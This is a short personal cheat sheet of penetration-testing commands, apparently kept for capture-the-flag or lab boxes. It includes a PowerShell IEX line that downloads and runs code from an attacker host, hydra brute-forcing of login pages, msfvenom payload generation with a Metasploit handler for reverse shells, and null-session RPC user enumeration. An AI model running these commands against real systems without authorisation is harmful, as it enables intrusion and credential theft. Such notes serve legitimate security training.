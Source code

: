 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Make nice screenshots of access
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`

### List formats
`msfvenom -l formats`

### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### User dump
In RPC client, run `enumdomusers`
### More details
In RPC client, run `querdispinfo`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`
Windows version of `cat`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`
